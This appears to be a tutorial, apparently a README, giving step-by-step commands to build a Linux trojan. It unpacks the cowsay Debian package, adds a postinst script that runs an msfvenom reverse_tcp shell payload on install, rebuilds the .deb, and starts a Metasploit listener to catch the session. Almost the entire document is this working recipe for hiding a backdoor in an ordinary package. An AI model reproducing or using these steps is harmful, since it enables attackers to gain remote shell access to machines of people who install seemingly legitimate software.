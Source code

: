 ## Steps to create linux trojan
1. First, we need to download the package we want to place our payload in; for this recipe we will use cowsay.
a simple program that generates an ASCII picture of a cow saying something provided by the user:
```python
root@kali:~# apt --download-only install cowsay
```

2. Now that we have downloaded the package, we will extract the package to a new directory called cowsay:
```python
root@kali:~# dpkg -x /var/cache/apt/archives/cowsay_3.03+dfsg2-4_all.deb cowsay
```

3. Debian packages must adhere to a strict directory structure, so we need to create a subdirectory under the program's source directory, called DEBIAN:
```python
root@kali:~/trojan# mkdir cowsay/DEBIAN 
root@kali:~/trojan# cd cowsay/DEBIAN/
```

4. Next, we need to create the control file, which is the core of the Debian package, containing all relevant metadata such as package name, version, supported architectures, and dependencies:
```python
root@kali:~/cowsay/DEBIAN# cat control
```

**Output**k - 
```python
Package: cowsay 
Version: 3.03+dfsg2-4 
Architecture: all 
Maintainer: Francois Marier 
Installed-Size: 90 
Depends: perl 
Suggests: filters 
Section: games 
Priority: optional 
Homepage: http://www.nog.net/~tony/warez 
Description: configurable talking cow Cowsay (or cowthink) will turn text into happy ASCII cows, with speech (or thought) balloons. If you don't like cows, ASCII art is available to replace it with some other creatures (Tux, the BSD daemon, dragons, and a plethora of animals, from a turkey to an elephant in a snake).
```

5. Then we will create a post-installation file called postinst that will add the proper permissions to our payload, which will be called cowsay_trojan, and execute it:
```python
cat postinst chmod 2755 /usr/games/cowsay_trojan && /usr/games/cowsay_trojan & /usr/games/cowsay Welcome
```

6. Now that we have all the required files, we will generate the payload using msfvenom:
```python
msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=192.168.216.5 -b "\x00" -f elf -o /root/cowsay/usr/games/cowsay_trojan
```

7. Before we can build our new package, we need to make the postinst file executable using the chmod command. To build the package, we use the dpkgdeb command with the --build option, followed by the path to the program's source directory:
```python
root@kali:~/cowsay/DEBIAN# chmod 755 postinst 
root@kali:~/cowsay/DEBIAN# dpkg-deb --build /root/cowsay/
```

8. To test our trojan, we will start a listener in a new terminal window using msfconsole with the -x option, which allows us to specify a string as console commands:
```python
root@kali:~# msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD linux/x64/shell/reverse_tcp; set LHOST 192.168.216.5; run'
```
- Using the -x option with msfconsole can save you some time and allows you to launch msfconsole from scripts.

9. Since Kali is itself is a Linux client machine, we can test the trojan simply by changing to our home directory and using the dpkg command to install the cowsay program:
```python
root@kali:~/cowsay/DEBIAN# cd 
root@kali:~# dpkg -i cowsay.deb
```

10. Sure enough, in the terminal where we are running our listener, we should see a new session which was spawned by our Linux trojan:
```python
root@kali:~# msfconsole -q -x 'use exploit/multi/handler; set PAYLOAD linux/x64/shell/reverse_tcp; set LHOST 192.168.216.5; run'
```

